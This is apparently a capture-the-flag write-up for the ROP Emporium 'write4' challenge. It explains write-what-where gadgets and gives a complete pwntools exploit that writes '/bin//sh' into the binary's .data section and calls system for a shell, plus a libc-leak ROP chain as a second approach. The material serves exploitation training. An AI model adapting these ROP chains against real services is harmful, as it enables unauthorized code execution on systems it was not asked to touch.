

# write4

Link: https://ropemporium.com/challenge/write4.html

Description: *We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*

-----------------------

First, we check the offset is still the same sending 41 "A" characters:


## a. Approach 1: Write-What-Where Gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." ([source](https://trustfoundry.net/basic-rop-techniques-and-tricks/))

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write4 | grep mov | grep "\["
```


We have these *Write-What-Where* gadgets:

- *mov dword ptr [rsi], edi* (0x0000000000400821)

- *mov qword ptr [r14], r15* (0x0000000000400820)


Then we search for gadgets that could control rsi, edi (rdi), r14 and r15:

- RSI: *pop rsi ; pop r15 ; ret* (0x0000000000400891)

- RDI: *pop rdi ; ret* (0x0000000000400893)

- R14: *pop r14 ; pop r15 ; ret* (0x0000000000400890)

- R15: *pop r15 ; ret* (0x0000000000400892)


Next we need to figure out where to write in memory. The best option would be the .data segment so let's get the address of the “.data” section in the binary (also, the .bss section is writable, it could work):


We will use R14 and R15 to write "/bin/sh" in memory, so:

- **writewhatwhere = 0x400820**

- **pop_r14_r15_ret = 0x400890**

- **writable_memory = 0x601050**

And the idea is to write a string such as "/bin//sh" in memory:

```
mov [r14], r15

mov [0x601050], "/bin//sh"
```

As we are working with 64 bits, we will send "/bin//sh" (a string with length 8, the size of the registers):

```
rop += p64(pop_r14_r15_ret) + p64(writable_memory) + "/bin//sh"
rop += p64(writewhatwhere)
```


After this, knowing the string "/bin//sh" will be located in *writable_memory*, we can make the same that in the previous challenge "split": 

```
rop += p64(pop_rdi) + p64(writable_memory) + p64(system)
```


Finally, the exploit is:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'write4'
p = process('./'+binary_name)
elf =  ELF(binary_name)
rop =  ROP(elf)

system = elf.sym["system"] 
pop_r14_r15_ret = (rop.find_gadget(['pop r14', 'pop r15', 'ret']))[0] # 0x400890
pop_r15_ret =     (rop.find_gadget(['pop r15', 'ret']))[0] # 0x400892
pop_rdi =         (rop.find_gadget(['pop rdi', 'ret']))[0]
writewhatwhere  = 0x400820
writable_memory = 0x601050

log.info("System address (.plt) - " + hex(system))
log.info("pop r14, pop r15, ret - " + hex(pop_r14_r15_ret))
log.info("pop r15, ret          - " + hex(pop_r15_ret))
log.info("pop rdi, ret          - " + hex(pop_rdi))
log.info("Write-what-where      - " + hex(writewhatwhere))
log.info(".data section start   - " + hex(writable_memory))


rop =  "A"*40
rop += p64(pop_r14_r15_ret) + p64(writable_memory) + "/bin//sh"
rop += p64(writewhatwhere)
rop += p64(pop_rdi) + p64(writable_memory) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

And it works!:



---------------


## b. Approach 2: Libc leakage approach

The first approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

### Rop 1: Leaking puts address

```
OFFSET = "A"*40
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p64(POP_RDI) + p64(puts_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

### Calculating libc base address

```
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
libc.address = leak - libc.symbols["puts"]
```

### Rop 2: system("/bin/sh")

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
```


----------------

Similar ROPs:

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- About wruite-what-where: https://trustfoundry.net/basic-rop-techniques-and-tricks/

- Another write-what-where exploit: https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/

- Libc leakage: https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address
